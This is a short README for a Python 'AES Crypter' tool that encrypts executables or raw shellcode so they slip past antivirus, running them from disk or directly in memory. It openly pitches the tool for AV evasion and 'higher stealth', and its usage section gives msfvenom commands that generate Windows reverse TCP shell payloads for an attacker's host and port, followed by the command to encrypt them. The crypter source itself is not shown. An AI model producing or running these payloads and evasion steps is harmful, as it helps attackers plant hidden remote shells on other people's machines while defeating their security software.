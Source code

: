 # 🔐 AES Crypter - Scantime & Runtime

This is a simple AES-based crypter project with two modes:

- **Scantime Crypter**: decrypts and drops an encrypted `.exe` to disk, then runs it.
- **Runtime Crypter**: decrypts and executes raw shellcode directly in memory (no file drop).

Both versions are written in Python and support custom payloads.

---

## 💡 Why use it?

Crypters are useful for obfuscating or encrypting payloads to bypass antivirus detection.  
This tool is ideal for red teamers, penetration testers, or researchers who want to test AV evasion techniques and execute payloads with higher stealth — especially in restricted environments.

---

## 🚀 Usage

### 1. Generate your payload

- For runtime:
  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f raw -o payload.bin`

- For scantime:
  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f exe -o payload.exe`

### 2. Encrypt your payload

- `python3 scantime/runtime.py payload.exe/.bin`

